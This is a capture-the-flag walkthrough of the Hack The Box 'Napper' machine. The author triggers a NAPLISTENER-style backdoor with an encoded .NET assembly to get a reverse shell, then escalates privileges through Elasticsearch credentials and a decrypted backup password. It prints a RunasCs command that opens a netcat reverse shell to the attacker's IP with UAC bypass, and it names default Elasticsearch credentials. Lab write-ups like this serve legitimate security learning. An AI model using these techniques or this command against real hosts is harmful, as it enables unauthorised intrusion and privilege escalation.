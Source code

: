 # PORT SCAN
* **80** &#8594; HTTP (IIS)
* **443** &#8594; HTTPS
* **7680** &#8594; PANDO-PUB

<br><br><br>

# ENUMERATION & USER FLAG
The port 7680 is pretty uncommon and can be used (as standard) for **<u>Pando Media Public Distribution</u>** or **<u>WUDO</u>** (Windows Update Delivery Optimization). I think we will have more info about it just after we performed foothold.

Let's move on the HTTP and HTTPS, according to the nmap scan we have a subdomain `app.napper.htb`

![a3e147a566301000c9cc910d12398928.png](img/a3e147a566301000c9cc910d12398928.png)

The certificate show us the issuer which is another subdomain o the box called `ca.napper.htb`

![cb7c69b3bde0772ef56a1ad7364347bb.png](img/cb7c69b3bde0772ef56a1ad7364347bb.png)

Now the website is similar to a security blog (like github.io) build it with <u>Hugo</u>

![698078d9fc83b2b9dd6a6f7a0ca54c64.png](img/698078d9fc83b2b9dd6a6f7a0ca54c64.png)

All right time to explore, a good part of the blog is based on IIS management (SSL included) and the website itself is used as example

![455416b0ce6337cce50dce628c7e7b9e.png](img/455416b0ce6337cce50dce628c7e7b9e.png)

Cool the blog is splitted in half, basic authentication on IIS systems and high level understanding of Reverse Engineering.

While I was reading I run some instance of dirb and ffuf and we have a new subdomain `internal.napper.htb`

![21e2a49e16e0306fc74b6def5add2ced.png](img/21e2a49e16e0306fc74b6def5add2ced.png)

Here we have the basic authentication in action

![4f01a560018b9c74c6463e5570f88431.png](img/4f01a560018b9c74c6463e5570f88431.png)

Looking at the blog post there is one where used the Powershell to implement basic authentication

![8e9e74570c41a20b4e32eb462e4427f6.png](img/8e9e74570c41a20b4e32eb462e4427f6.png)

It works, we have access here and is the same blog but with a single articl called `**INTERNAL** Malware research notes`

![58e2e4511f05d7ae69cc4551de48f166.png](img/58e2e4511f05d7ae69cc4551de48f166.png)

Time to read, again! The article talk about the [Naplistener](https://www.darkreading.com/threat-intelligence/custom-naplistener-malware-network-based-detection-sleep) malware.

We have this in a code block

> This means that any web request to /ews/MsExgHealthCheckd/ that contains a base64-encoded .NET assembly in the sdafwe3rwe23 parameter will be loaded and executed in memory. It's worth noting that the binary runs in a separate process and it is not associated with the running IIS server directly.

Well that's what I do (as parameter I used `whoami` in base64)

![7862f5dfa6313f0ba7b66bf582e556ca.png](img/7862f5dfa6313f0ba7b66bf582e556ca.png)

We also have a LOG with all the discovery made by the team

![c8f47c925bbf7dcd1f6a3022dd7249d8.png](img/c8f47c925bbf7dcd1f6a3022dd7249d8.png)

Cool so what we know so far is that we need a `.NET assembly` and use it to get a shell, looking at some article online I found the listener's code and what is intersting is the bottom part where manage the parameter 

![f871b31c8d551fda0589ce61038c5001.png](img/f871b31c8d551fda0589ce61038c5001.png)

<br><br>

Now with some trial and error I need to accomplish the listener and trigger a reverse shell 

What I have tried was to usea [C# Rev Shell](https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc) and use `mcs` Command Line Utility in order to create a dll, encoded in base64 and use it as parameter on the POST request but nothing return back to us (same thing with the EXE extension). Something is missing I need more reasearch but I don't think I will find an *"how to trigger NAPLISTENER malware"* lol

I tried a slighty different approach I used this C# code which download a ps1 script containing the powershell reverse shell (base64 encoded edition) and execute it

![87fe30c994e59b551a1126bbdc1ffdca.png](img/87fe30c994e59b551a1126bbdc1ffdca.png)

The key point was the `Run()` class because of the (according to the image above) `assembly.CreateInstance(assembly.GetName().Name + ".Run")`. Cool, than everything goes how is supposed to downloading the powershell script and execute.

Finally my netcat get our reward

![31620a24a45a2130419da001ef95cec7.png](img/31620a24a45a2130419da001ef95cec7.png)

<br><br><br>

# PRIVILEGE ESCALATION
First thing that I have checked are the process that are running in the background and we have the [Elastic Search Service](https://www.elastic.co/elasticsearch/service)

![60344cb5dddba401b3f52c5a2e3d1b94.png](img/60344cb5dddba401b3f52c5a2e3d1b94.png)

Can make sense this service is the one to be abused since Elastic is the company that have discovered and analyzed the NAPLISTENER malware, the version is `8.8.0`

![ac34d78be95006a63f8d2c4441dc1343.png](img/ac34d78be95006a63f8d2c4441dc1343.png)

It doesn't appear to have some known vulnerability, inside the configuration directory of the application we have a yaml file with the port is used for `Elastic Software`

![9a1b7b7be49a400c9ac355152afe9a89.png](img/9a1b7b7be49a400c9ac355152afe9a89.png)

Time to use chisel in order to retrieve the content of the port 9200 and we need to deal with another **<u>Basic Authentication</u>** form, the default credentials for elastic seems to be <u>`elastic:changeme`</u>

I tried to run some hydra bruteforce while I was out for some NPC like things but no response at all, time to use winPEAS and this is interesting

![0ecc9ee29bce66a7e6a4bba5199a5ef5.png](img/0ecc9ee29bce66a7e6a4bba5199a5ef5.png)

Let's see what we have here and we have a `.env` file with the username and password of elastic

![06edeab9a24e46c0349c8e848609fc30.png](img/06edeab9a24e46c0349c8e848609fc30.png)

![3ede635afb3def38674417a54006b5db.png](img/3ede635afb3def38674417a54006b5db.png)

Now we are free to play with elastic :)
Thanks to god [hacktricks have a page just for that](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch)

> **<u>Elasticsearch</u>** is a versatile tool for searching, analyzing, and visualizing large volumes of data, particularly when that data is text-heavy or has a significant unstructured component. Its flexibility, scalability, and speed make it suitable for a broad range of applications across various industries

![f635479b88a2e5f02e99998398a3d360.png](img/f635479b88a2e5f02e99998398a3d360.png)

Now will be a good idea to tak the `a.exe` and try to do some RE, this is just intuition apparently everything inside the folder is used for elastisearch so maybe this executable can help us to retrieve something usefull. The executable appear to be written in GO so I installed [this extension](https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension) for a better RE.

Inside the `main.main` we have the `genKey` function but doesn't seems to be usefull but using `strings` and some patience I found something like this 

![ea3aa65d016a1a89f9b5826a1ac88222.png](img/ea3aa65d016a1a89f9b5826a1ac88222.png)

So maybe is using an AES CFB encryption

I saw before that the `/_search` endpoint can gave us a blob with the seed of what it seems to be the `backup` user password

![91acfdd66aa09fb52a65bc9ecb6394fa.png](img/91acfdd66aa09fb52a65bc9ecb6394fa.png)

It seems it change after a few minutes, using Bard AI I successfully retrieved a GO script that can help me to retrieve the plaintext password given the blob and the seed (according to what we discovered before)

![0e3c77ee59929d1f18694dda27856e1d.png](img/0e3c77ee59929d1f18694dda27856e1d.png)

![a783a37466ccb73f68a8b5876bd85437.png](img/a783a37466ccb73f68a8b5876bd85437.png)

That's cool, now I need to figure out how to change user since there is no WinRM port. [RunasCs.exe](https://github.com/antonioCoco/RunasCs) is what we need and some timing for the password retrieval

![f2ec004c44b67a96eb3e94112934d28a.png](img/f2ec004c44b67a96eb3e94112934d28a.png)

Beautiful now let's see if we can get a shell somehow! Just upload netcat on the windows target machine and I used this line of code

`.\ras.exe backup [PASS] "C:\Users\ruben\Desktop\nc.exe 10.10.14.11 5555 -e cmd.exe" -t 8 --bypass-uac`

![c9fac729f4903d80bcd15c61b9d5ccde.png](img/c9fac729f4903d80bcd15c61b9d5ccde.png)

Cool thing now let's enumerate back and simply we are in the Administrator groups! Cool!

![00257b4355ea13e63f174a75fd8c9e8f.png](img/00257b4355ea13e63f174a75fd8c9e8f.png)


